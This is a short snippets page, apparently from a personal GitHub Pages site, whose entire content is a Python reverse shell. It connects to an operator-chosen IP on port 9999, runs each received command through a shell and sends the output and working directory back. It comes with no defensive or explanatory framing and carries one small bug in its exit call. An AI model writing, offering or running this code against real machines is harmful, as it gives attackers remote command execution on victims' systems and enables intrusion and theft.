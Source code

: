 ### Snippets

* [Home page](https://assassinukg.github.io/ac1d)
* [Snippets](https://assassinukg.github.io/ac1d/snippets)

# Python Reverse shell example 1
```python
import socket
import os
import subprocess

s = socket.socket()
host = 'ENTER IP HERE'
port = 9999

s.connect((host, port))

while True:
    data = s.recv(1024)
    if data[:4].decode("utf-8") == "quit" or data[:3].decode("utf") == "exit":
        os.Exit(-1)
    if data[:2].decode("utf-8") == 'cd':
        os.chdir(data[3:].decode("utf-8"))

    # if len(data) > 0:
    cmd = subprocess.Popen(data[:].decode("utf-8"),shell=True, stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE)
    output_byte = cmd.stdout.read() + cmd.stderr.read()
    output_str = str(output_byte,"utf-8")
    currentWD = os.getcwd() + "> "
    s.send(str.encode(output_str + currentWD))

    print(output_str)
```
